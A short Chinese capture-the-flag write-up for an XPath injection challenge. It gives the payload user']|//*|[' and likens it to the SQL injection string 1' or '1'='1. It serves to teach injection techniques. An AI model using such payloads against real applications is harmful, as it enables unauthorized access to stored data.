 # injection:

# 出题思路：

出题思路来源于这篇文章： [http://blog.csdn.net/yefan2222/article/details/7227932][1]

# payload

user']|//*|['

# writeup

其实自己看看xpath的语法就知道是怎么回事了 [http://www.w3school.com.cn/xpath/][2]

上面的payload的类似于sqli的 1' or '1'='1

[1]: http://blog.csdn.net/yefan2222/article/details/7227932
[2]: http://www.w3school.com.cn/xpath/
